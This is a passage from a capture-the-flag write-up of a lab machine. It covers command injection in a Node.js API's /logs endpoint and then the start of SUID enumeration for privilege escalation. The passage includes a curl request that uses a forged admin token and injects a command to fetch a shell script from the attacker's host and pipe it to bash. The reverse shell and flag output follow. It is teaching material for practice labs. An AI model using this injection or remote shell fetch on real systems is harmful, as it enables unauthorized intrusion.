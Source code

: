 ```js
            desc: "page you are looking for is not found. "
        }
    })
});


module.exports = router
```
It seems that at the `/logs` endpoint, the api is executing the command `git log --oneline ${file}`, however it doesn't seem to validate the input it takes from the user in any way. We can exploit this by hosting a bash revshell on our system, then giving the API the command to get the revshell and pipe it to bash:

`curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MmM5ZDllMGRmMjgwZDA0N2FiNmIwNWMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAdGVzdC5jb20iLCJpYXQiOjE2NTczOTU3NzR9.0l8x-px0y5ok5cvMuj1IC0qzw6p1Oc6J-zfHVlzG16A' 'http://10.129.77.29:3000/api/logs?file=test;curl+http://10.10.14.81:8000/shell.sh+|+bash'`


This then gives us a revshell on the host system.
```console
┌──(bitis㉿workstation)-[~]
└─$ nc -lvnp 1234             
listening on [any] 1234 ...
connect to [10.10.14.81] from (UNKNOWN) [10.129.77.29] 48066
bash: cannot set terminal process group (1146): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ cd ~
cd ~
dasith@secret:~$ cat user.txt
cat user.txt
d90be9c3f2f7248df5a7cfc39b4324b5
dasith@secret:~$ 
```

## Privilege escalation
We start by taking a look at SUID binaries:

```console
dasith@secret:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/opt/count
/snap/snapd/13640/usr/lib/snapd/snap-confine
/snap/snapd/13170/usr/lib/snapd/snap-confine
/snap/core20/1169/usr/bin/chfn
/snap/core20/1169/usr/bin/chsh
/snap/core20/1169/usr/bin/gpasswd
---SNIP---
```